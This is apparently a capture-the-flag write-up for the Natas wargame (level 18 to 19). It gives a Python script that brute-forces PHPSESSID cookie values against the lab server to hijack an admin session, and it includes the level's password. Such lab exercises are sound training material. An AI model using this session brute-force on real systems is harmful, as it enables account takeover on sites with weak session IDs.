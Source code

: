 # Level 18 -> Level 19  

Use this script to bruteforce the correct PHPSESSID of admin  

```python
import requests

target = 'http://natas18.natas.labs.overthewire.org/'
auth = ('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')
params = dict(username='admin', password='anyrandomword')
cookies = dict()

max_s_id = 640
s_id = 1  

while s_id <= max_s_id:
        print("Trying with PHPSESSID =", s_id)
        cookies = dict(PHPSESSID=str(s_id))
        r = requests.get(target, auth=auth, params=params, cookies=cookies)
        if "You are an admin" in r.text:
                print(r.text)
                break
        s_id += 1

```
